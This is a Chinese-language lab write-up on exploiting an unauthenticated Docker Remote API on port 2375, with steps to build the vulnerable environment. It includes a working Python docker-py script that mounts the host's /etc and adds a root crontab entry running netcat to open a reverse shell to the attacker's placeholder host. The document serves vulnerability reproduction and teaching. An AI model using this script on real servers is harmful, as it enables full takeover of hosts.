

# Docker Remote API 未授权访问导致远程代码执行

Docker 是一个提供容器化软件打包和交付的平台即服务（PaaS）解决方案。Docker 守护进程（dockerd）提供了一个 REST API，允许远程管理 Docker 容器、镜像和其他资源。

当 Docker 守护进程被配置为监听网络端口（通常是 TCP 端口 2375）且未启用适当的身份验证机制时，攻击者可以未经授权访问 Docker API。利用此漏洞，攻击者可以在主机系统上创建、修改和执行容器，可能导致远程代码执行、数据窃取以及完全控制主机系统。

- <https://docs.docker.com/engine/security/protect-access/>
- <https://tttang.com/archive/357/>

## 环境搭建

执行以下命令启动存在漏洞的 Docker 环境：

```
docker compose build
docker compose up -d
```

环境启动后，Docker 守护进程将在 2375 端口上监听，且不需要任何身份验证。

## 漏洞复现

这个漏洞可以使用 Python 的 docker-py 库进行利用。攻击方法是创建一个新容器并挂载主机的/etc 目录，这样攻击者就能修改系统关键文件。在这个示例中，我们将通过添加一个恶意的 crontab 条目来创建反弹 shell，以演示漏洞的危害。

首先，安装所需的 Python 库：

```
pip install docker
```

然后创建并运行以下 Python 脚本来利用漏洞：

```python
import docker

client = docker.DockerClient(base_url='http://your-ip:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

这个脚本创建了一个容器，挂载主机的/etc 目录，并向 root 用户的 crontab 添加一个反弹 shell 命令。在一分钟内，cron 守护进程将执行该命令，建立一个反弹 shell 连接到攻击者的机器。

成功利用漏洞后，可以收到反弹 shell 连接：



这个漏洞展示了正确保护 Docker 守护进程访问和为远程 API 端点实施身份验证机制的重要性。
